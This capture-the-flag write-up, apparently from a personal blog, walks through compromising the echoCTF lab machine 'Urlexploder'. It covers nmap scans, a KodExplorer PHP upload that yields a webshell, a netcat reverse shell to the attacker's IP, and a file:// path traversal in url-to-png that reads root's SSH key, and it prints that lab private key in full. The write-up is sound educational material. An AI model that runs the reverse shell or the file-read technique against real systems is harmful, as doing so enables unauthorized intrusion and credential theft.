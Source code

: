 ```yaml
---
description: >-
  Urlexploder echoCTF Machine
title: Urlexploder (Intermediate)                # Add title here
date: 2025-01-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Urlexploder.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.235
```

### Content

- KodExplorer Dangerous File Upload leading to RCE
- Arbitrary File Read via Playwright's Screenshot Feature Exploiting File Wrapper

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
cat allPorts 
# Nmap 7.94SVN scan initiated Fri Jan 24 22:37:55 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.235
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.235 ()   Status: Up
Host: 10.0.160.235 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///

```
Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Fri Jan 24 23:11:06 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.235
Nmap scan report for 10.0.160.235
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-24 23:11:07 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 db:11:dd:7f:d8:dd:fe:0e:61:4c:3e:59:89:c6:e7:91 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFfdp13tqB/Uxu32MFZtasmeHOM0ueGElZo4lEkwRGqX93ECOMnYlO/Tam1LuihI0SA847wB36KoW6sV60NJ+VI=
|   256 54:5b:00:b8:34:d8:c0:a6:27:f7:e5:4d:c6:52:5c:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID2/nUUxae+gYgRz9NWhGR5uY88FnnGbROgJiWaruAO8
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     KOD_SESSION_ID_7da51: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 8B93800E9876BD86C2C4280F05066EE0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET
| http-title: KodExplorer - Powered by KodExplorer
|_Requested resource was ./index.php?user/login
|_http-generator: KodExplorer 4.49
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

Only HTTP port tcp-80 is open, by exploring it we notice that there is a CMS called KodExplorer:
![](/assets/img/Pasted-image-20250124221442.png)

While investigating this CMS, we identify various exploits, but the most interesting one is under this [Github post](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/kalcaddle/2023/KodExplorerKodExplorer-4.51.03) also the same post makes a reference to a [Youtube video](https://www.youtube.com/watch?v=stfT7BtulQ0&ab_channel=nu11secur1ty) that provides with a full PoC that we can follow to get a reverse shell, it is unnecessary to add the images of the guide since it is self-explanatory.

By following the steps, you should be able to upload a PHP file and select the option "Open in browser(B)" as shown in the image below:
![](/assets/img/Pasted-image-20250124222013.png)

In that way, we will have a webshell that we can use to get a revshell using netcat:

![](/assets/img/Pasted-image-20250124222120.png)

Using the clasic `nc -e /bin/bash 10.10.5.122 1234`:

![](/assets/img/Pasted-image-20250124222340.png)

### Privilege Escalation

Privilege Escalation for this one was a pain in the ass, we first started by searching interesting processes using `ps -aux` 

```bash
www-data@urlexploder:~/html/data/User/pwnedadmin/home/desktop$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         137  0.0  0.5 11508908 48520 pts/0  Sl   16:02   0:00 node /opt/url-to-png-2.0.1/node_modules/.bin/../tsx/dist/cli.mjs --watch src/main.ts
root         138  0.0  0.5 1022592 46556 pts/0   Sl   16:02   0:00 node /opt/url-to-png-2.0.1/node_modules/.bin/../pino-pretty/bin.js
root         165  0.0  0.5 989580 46336 pts/0    Sl   16:02   0:00 /usr/bin/node --require /opt/url-to-png-2.0.1/node_modules/.pnpm/tsx@4.11.0/node_modules/t
root         171  0.4  1.2 64713368 98888 pts/0  Sl   16:02   0:01 /usr/bin/node --require /opt/url-to-png-2.0.1/node_modules/.pnpm/tsx@4.11.0/node_modules/t
root         183  0.0  0.1 721568 13064 pts/0    Sl   16:02   0:00 /opt/url-to-png-2.0.1/node_modules/.pnpm/@esbuild+linux-x64@0.20.2/node_modules/@esbuild/l
root         316  0.0  1.1 34047236 89736 ?      Ssl  16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --disable-field-trial-config 
root         317  0.0  1.0 34055452 88400 ?      Ssl  16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --disable-field-trial-config 
root         320  0.0  0.7 33875100 58836 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-zygote-san
root         321  0.0  0.7 33875100 58792 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-zygote-san
root         322  0.0  0.7 33875088 59084 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-sandbox --
root         323  0.0  0.7 33875088 59048 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-sandbox --
root         355  0.0  0.6 33970392 49320 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=gpu-process --no-sandb
root         356  0.0  0.9 33924688 75712 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=utility --utility-sub-
root         370  0.0  0.6 33970392 49328 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=gpu-process --no-sandb
root         378  0.0  0.9 33924688 75440 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=utility --utility-sub-
```

Some interesting processes are shown, specially one that is called ms-playwright and a process is also being called from the `/opt` directory called url-to-png-2.0.1, those two are interesting to check.

In second place we search for interesting files, inside `/tmp` directory with the following content:

![](/assets/img/Pasted-image-20250125002042.png)

As shown on permissions only the `tsx-0` directory is accesible, inside of it there are some unknown files:
![](/assets/img/Pasted-image-20250125002205.png)

All the files in here includes a path that is a process running in the previous `ps -aux` command, which makes this url to png 2.0.1 more interesting:
![](/assets/img/Pasted-image-20250126101131.png)

Looking for vulnerabilities for this binary, there is one that looks pretty interesting:

![](/assets/img/Pasted-image-20250126212527.png)

Basically, the PoC is a Path Traversal that allows a user to read files using a `file://` scheme:

![](/assets/img/Pasted-image-20250126212731.png)

Now, while trying with the initial webpage we discover that is not working for it, so we investigate other open services on the machine:

```bash
www-data@urlexploder:/tmp$ ss -tuln 
Netid    State     Recv-Q    Send-Q   Local Address:Port
udp      UNCONN    0         0        127.0.0.11:51087  
tcp      LISTEN    0         128      0.0.0.0:22        
tcp      LISTEN    0         511      0.0.0.0:80        
tcp      LISTEN    0         511      127.0.0.1:3089    
tcp      LISTEN    0         4096     127.0.0.11:38077  
tcp      LISTEN    0         128      [::]:22           

```

The port 3089 is not a common open port so I sent an HTTP request to see if the server is web or not:
```bash
www-data@urlexploder:/tmp$ curl -s http://127.0.0.1:3089/
{"message":"Invalid query parameters"}
```

And surprisingly enough, it is, now using the PoC we can see that there is a file being downloaded, at first glance it looks like the `/etc/passwd` is downloaded, but looking the content of the file it seems like a PNG image:

![](/assets/img/Pasted-image-20250126213445.png)

To check the images better I decided to go and do a Port Forwarding using [Chisel](https://shuciran.github.io/posts/Chisel/) so I can see this images from my own browser and the result was the content of `/etc/passwd` on the image:

![](/assets/img/Pasted-image-20250126213828.png)

So we decide to grab the id_rsa directly from the /root directory, but there is an error if the file is not found:

![](/assets/img/Pasted-image-20250126214037.png)

In this cases, there are other types of private keys such as the id_rsa, some of them are created using Eliptyc Curves or other algorithms instead and some examples are as follows:

```text
id_rsa
id_ecdsa
id_ed25519
id_dsa
```

If there is a private key then we should check for the `authorized_keys`, which is a file that provides more info about it:

![](/assets/img/Pasted-image-20250126214833.png)

And as suspected, the algorithm used is ED25519 which is the abbreviature for Algorithm: EdDSA (Edwards-Curve Digital Signature Algorithm) using Curve25519, searching for this kind of algorithm provides details about the type of public key and private key and common name generated while creating them:

![](/assets/img/Pasted-image-20250126215856.png)

Looking up for this file using the Path Traversal vulnerability, throws the private key:

![](/assets/img/Pasted-image-20250126220022.png)

Now the interesting part was to extract the text from this one (I made a lot of mistakes while trying) I used Snagit to save me time, but here I got you:

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBFmNuELVMDeb/xQStnwEkL0RjFD9msBy9Bi6Z4xztsPwAAAIjPmzllz5s5
ZQAAAAtzc2gtZWQyNTUxOQAAACBFmNuELVMDeb/xQStnwEkL0RjFD9msBy9Bi6Z4xztsPw
AAAEDDObDOfFBe45Bc8LenwEN1IUmI9KJrqk0E8Xyj7ZrW4UWY24QtUwN5v/FBK2fASQvR
GMUP2awHL0GLpnjHO2w/AAAAAAECAwQF
-----END OPENSSH PRIVATE KEY-----
```

Finally, we have root shell:

![](/assets/img/Pasted-image-20250126220430.png)

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials

id_ed25519

### Notes

-  Always look for other type of private keys such as `id_ed25519`, `id_dsa`, `id_ecdsa` and so on if you can't find the classic `id_rsa`.

### References

- [KodExplorer RCE Video](https://www.youtube.com/watch?v=stfT7BtulQ0&ab_channel=nu11secur1ty)
- [Chisel Configuration](https://shuciran.github.io/posts/Chisel/)
